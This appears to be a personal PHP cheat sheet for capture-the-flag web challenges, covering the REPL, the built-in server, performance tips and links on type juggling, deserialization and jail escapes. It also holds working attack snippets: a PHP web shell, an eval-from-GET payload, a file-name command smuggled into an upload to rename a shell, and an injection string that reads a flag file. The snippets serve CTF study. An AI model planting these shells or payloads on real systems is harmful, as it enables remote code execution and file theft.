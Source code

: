 # +

- https://github.com/ctfs/write-ups-2015/tree/master/codegate-ctf-2015/web/owlur
- https://www.arneswinnen.net/2013/11/hack-lu-2013-ctf-wannabe-writeup-part-one-web-exploitation/
- http://php.net/manual/en/wrappers.php

```html
<script language=PHP>eval($_GET['q']);</script>
<?php print_r(scandir('/')) ?>
```

```html
<?php echo system($_GET['s']); ?>
```
    > uploaded as shell.png, then uploaded another file: ´cd uploads;cd 6a9btoq20khkn8ln5lfhuo6v62;cp 65-shell.png shell.php´.png

```
flag','..')+or+system('cat+templates/flag.php');//
```

# repl

```bash
php -a
```

- [GitHub \- apinstein/iphp: An interactive php shell \(REPL\) with support for readline, autocomplete, include/require, and fatal\-error tolerance\.](https://github.com/apinstein/iphp)

# server

```bash
php -S localhost:8000
```

# performance 

- https://news.ycombinator.com/item?id=2615183
    > As someone who optimized a piece of PHP code recently, there are a number of things I ran into that were counterintuitive wrt performance.
    > - array_key_exists is 5X slower than isset (though there are different semantics)
    > - direct string concatenation is 2X faster than using "implode"
    > - memoization can be a huge win since function calls are 5X slower than array accesses. (No inlining in PHP)
    >
    > Of course, these optimizations don't matter except in your hotspots. (Why we still have to have this disclaimer on HN puzzles me, but people seem to keep trotting out the usual Knuth quote out of context as a way to write off micro-optimization techniques in general.)
    > Also important to keep in mind:
    > - PHP has copy on write semantics for arrays. So if you set $foo = $bar (arrays), you don't incur any additional memory until you alter $foo. (Aside from the additional reference.) Once you change any entry of $foo, PHP makes a copy of the whole thing. (This can result in massive performance and memory bloat if you don't realize its happening.)
    > - PHP arrays are not arrays, but are a hybrid linear array and hashtable. ("one data structure to rule them all.") So, even a simple "array" of integers incurs more than what you'd expect memory wise. In fact, IIRC, an array of integers incurs approximately 100 bytes of memory for each entry. Ouch. There are extensions in new versions of PHP that allow you to use 'real' arrays. If you're stuck using normal PHP arrays, good luck trying to design optimized data structures for the problem at hand.
    > 
    > See also: http://phpbench.com/

# type juggling, weak comparison, magic hashes

```php
<?php
strcmp($_GET['user'], "admin") == 0
// => "admin1"

strcasecmp($_GET['secret'], "0x1337") == 0
// => ["1"]
```

# deserialization

- https://dpalbd.wordpress.com/ctf-writeup-serial-1/
- https://www.netsparker.com/blog/web-security/untrusted-data-unserialize-php/
- https://www.exploit-db.com/docs/english/44756-deserialization-vulnerability.pdf
- [GitHub \- galdeleon/35c3\_php: Solution for 35c3 php challenge](https://github.com/galdeleon/35c3_php)
    - ~/code/snippets/ctf/web/35c3_php/

# jail

- [GitHub \- splitline/PHPFuck: PHPFuck: \(\(\+\.^\)\) / Using only 7 different characters to write and execute php\.](https://github.com/splitline/PHPFuck)
- https://github.com/terjanq/Flag-Capture/blob/master/MeePwn%202018/omega/README.md#part2
- https://gist.github.com/terjanq/aa39a5a40b8d9b8a8e2a54e747715a2c
    - https://twitter.com/terjanq/status/1257276298550001664
